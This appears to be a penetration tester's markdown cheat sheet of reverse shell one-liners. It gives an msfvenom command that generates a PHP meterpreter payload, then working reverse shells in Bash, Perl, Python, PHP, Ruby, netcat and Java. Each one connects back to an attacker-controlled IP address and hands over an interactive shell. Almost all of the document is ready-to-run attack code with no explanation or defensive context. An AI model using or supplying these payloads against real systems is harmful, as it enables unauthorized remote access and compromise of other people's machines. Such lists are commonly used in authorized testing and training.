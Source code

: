 Can create more shells here: https://www.revshells.com/

### msfvenom

> sudo msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.15.73 LPORT=4444 -f raw > /home/kali/msfshelly.php

### Bash 

```
bash -i >& /dev/tcp/10.11.0.32/1234 0>&1
```

### Perl
```
perl -e 'use Socket;$i="10.11.0.32";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```
php -r '$sock=fsockopen("10.11.0.32",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.11.0.32",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```
nc -e /bin/sh 10.11.0.32 1234
```

or if you have a different version installed:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.32 1234 >/tmp/f
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.32/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
